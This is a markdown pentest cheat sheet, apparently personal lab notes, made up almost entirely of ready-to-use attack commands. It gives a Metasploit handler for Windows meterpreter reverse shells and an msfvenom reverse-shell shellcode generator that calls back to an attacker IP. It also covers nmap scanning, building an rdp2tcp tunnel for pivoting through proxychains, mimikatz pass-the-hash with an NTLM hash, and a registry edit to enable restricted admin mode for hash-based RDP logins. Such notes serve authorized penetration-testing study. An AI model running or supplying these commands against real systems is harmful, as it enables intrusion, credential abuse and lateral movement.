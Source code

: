 
## Metasploit
- Multihandler:
  `msf>use exploit multi/handler`  
  `msf>set payload windows/meterpreter/reverse_tcp`  
  `msf>set lhost <local IP>`  
  `msf>set lport <local port>`  
  `msf>set ExitOnSession false`  
  `msf>exploit -j`  
- MSF Payload:  
  `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.90 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows`  
- Vuln Scanning with MSF:  
  make sure db runs: `db_status`  
  `db_nmap -v -sV 10.11.1.35`  
  `db_nmap -sS -Pn -A 10.11.1.35`  
## RDP
### Linux RDP Client
- `rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10`  

### Tunneling via RDP
On Linux:   
1. git clone https://github.com/V-E-O/rdp2tcp
2. apt install mingw-w64
3. make server-mingw32   
Note: You might have to change the <rdp2tcpFolder>/server/Makefile.mingw32 --> Set CC=i686-w64-mingw32-gcc-win32   
4. make client
5. xfreerdp /u:<user> /p:<pw> /v:<TargetIP> /rdp2tcp:/home/kali/rdp2tcp/client/rdp2tcp
6. Transfer the ./server/rdp2tcp.exe to the windows target
7. On the Windows target, run rdp2tcp.exe as an unprivileged user
8. On Linux: configure the proxychains config ("socks5 127.0.0.1 1080" >> /etc/proxychains.conf)
9. `python2 tools/rdp2tcp.py add socks5 127.0.0.1 1080`   
10. enjoy the tunnel with "proxychains .... targets"!

### RDP PTH
PTH over RDP is possible with restricted admin mode enabled:   
```
mimikatz.exe
privilege::debug
sekurlsa::pth /user:admin /domain:lab.local /ntlm:3462D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
To enable restricted admin mode, perform PS remoting, then enable the mode:   
`New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0`   
Note: DisableRestrictAdmin set to 0 enables it!   

Then RDP (via sockproxy if necessary):   
`proxychains4 xfreerdp /u:admin /pth:3462D26CDF84D7A70E2EB3B9F05C425E /v:192.168.1.4 /cert-ignore`   
